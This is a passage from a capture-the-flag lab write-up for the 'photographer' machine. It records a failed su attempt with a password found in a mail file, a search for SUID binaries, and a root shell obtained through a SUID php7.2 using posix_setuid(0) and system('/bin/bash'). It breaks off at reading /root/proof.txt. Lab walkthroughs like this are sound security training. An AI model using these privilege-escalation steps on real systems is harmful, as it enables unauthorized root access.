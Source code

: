 **User Flag:** `d41d8cd98f00b204e9800998ecf8427e`

I attempted to switch user to `daisa` using the password `babygirl` (from `mailsent.txt`), but it failed.

```shellscript
www-data@photographer:/home/daisa$ su daisa
Password: babygirl
su: Authentication failure
```

## Privilege Escalation

I searched for SUID binaries on the system:

```shellscript
find / -perm -4000 2> /dev/null
```

**Key finding:**

- `/usr/bin/php7.2`


I checked the permissions of `/usr/bin/php7.2`:

```shellscript
ls -l /usr/bin/php7.2
```

The `s` permission bit (`-rws`) indicates that `php7.2` is a SUID binary, meaning it runs with the permissions of its owner (`root`). This is a common misconfiguration that can be exploited.

Since `php7.2` is SUID, I can execute PHP code with root privileges. I used the `posix_setuid(0)` function to change the effective user ID to root (0) and then executed a bash shell.

```shellscript
www-data@photographer:/var/www/html/koken/storage/originals/47/1c$ /usr/bin/php7.2 -r "posix_setuid(0); system('/bin/bash');"
```

This immediately granted me a root shell:

```plaintext
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

The `uid=0(root)` confirms that I have successfully escalated privileges to root.

## Root Flag

Finally, I navigated to the `/root` directory to find the `proof.txt` file.

```shellscript
cd /root
ls
proof.txt
cat proof.txt
```
